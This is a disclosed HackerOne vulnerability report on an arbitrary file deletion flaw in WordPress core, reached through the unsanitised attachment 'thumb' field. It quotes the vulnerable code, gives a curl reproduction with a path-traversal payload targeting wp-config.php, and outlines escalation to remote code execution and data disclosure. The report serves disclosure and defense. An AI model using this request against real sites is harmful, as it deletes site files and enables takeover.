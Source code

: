 # Arbitrary file deletion in wp-core - guides towards RCE and information disclosure

## Report Details
- **Report ID**: 291878
- **URL**: https://hackerone.com/reports/291878
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2017-11-20T13:57:40.409Z
- **Disclosed**: 2018-08-29T13:47:04.950Z

## Reporter
- **Username**: b258ea62bf297b02afa9854
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: wordpress

## Vulnerability Information
Vulnerable place 1: `wp-admin/post.php`
`$newmeta['thumb']` is placed into DB not sanitized directly from user input.
```
case 'editattachment':
    check_admin_referer('update-post_' . $post_id);
    // Don't let these be changed
    unset($_POST['guid']);
    $_POST['post_type'] = 'attachment';
    // Update the thumbnail filename
    $newmeta = wp_get_attachment_metadata( $post_id, true );
    $newmeta['thumb'] = $_POST['thumb'];
    wp_update_attachment_metadata( $post_id, $newmeta );
``` 
Vulnerable place 2: `wp_delete_attachment` 
There we have `$meta = wp_get_attachment_metadata( $post_id );` and below in the code:
```
if ( ! empty($meta['thumb']) ) {
        // Don't delete the thumb if another attachment uses it.
        if (! $wpdb->get_row( $wpdb->prepare( "SELECT meta_id FROM $wpdb->postmeta WHERE meta_key = '_wp_attachment_metadata' AND meta_value LIKE %s AND post_id <> %d", '%' . $wpdb->esc_like( $meta['thumb'] ) . '%', $post_id)) ) {
            $thumbfile = str_replace(basename($file), $meta['thumb'], $file);
            /** This filter is documented in wp-includes/functions.php */
            $thumbfile = apply_filters( 'wp_delete_file', $thumbfile );
            @ unlink( path_join($uploadpath['basedir'], $thumbfile) );
        }
    }
```
This means we can craft any value from the `wp-admin` for `thumb` property and that value to be sent towards `@unlink`

How to reproduce:

1. Upload image via media menu e.g. new
2. Go to edit post (old fashioned way)
3. Grad the `id`, `_wpnonce` and choose your payload `../../../../wp-config.php`
4. Craft your payload(set auth cookies, ua, referrers, ...): 
```
curl 'http://localhost/ripsa/wpvuln/wp-admin/post.php?post=[your_postid]&action=editattachment&_wpnonce=[yournonce]' -H 'place your client headers: ua, cookies in order to mimic the authenticated user ' -d 'thumb=../../../../wp-config-slavco.php' --compressed 
```
5. Delete the file from the admin

Impact:
1. Requires user that have permission to manipulate media files / posts
2. Hard to be spotted because:
2.1 Payload is deleted from DB
2.2 `@unlink` won't rise error in case of any failed attempts
3. Affects many blogging/publishing, e-commerce, ...  setups.

Attack:
1. Delete `wp-config.php` and relaunch wp setup with remote attackers db - RCE 
2. Delete `.htaccess` or any another `index.html`/`index.php` in order to disclose any stored data under web accessible directory


## Attachments
No attachments

